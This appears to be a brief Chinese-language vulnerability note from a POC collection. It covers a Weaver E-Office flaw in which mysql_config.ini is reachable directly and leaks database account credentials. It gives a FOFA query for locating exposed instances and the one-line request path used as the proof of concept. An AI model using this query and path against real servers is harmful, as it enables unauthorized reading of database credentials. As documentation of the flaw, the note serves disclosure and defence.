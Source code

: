 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## FOFA

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091048925.png)

验证POC

```php
/mysql_config.ini
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091048869.png)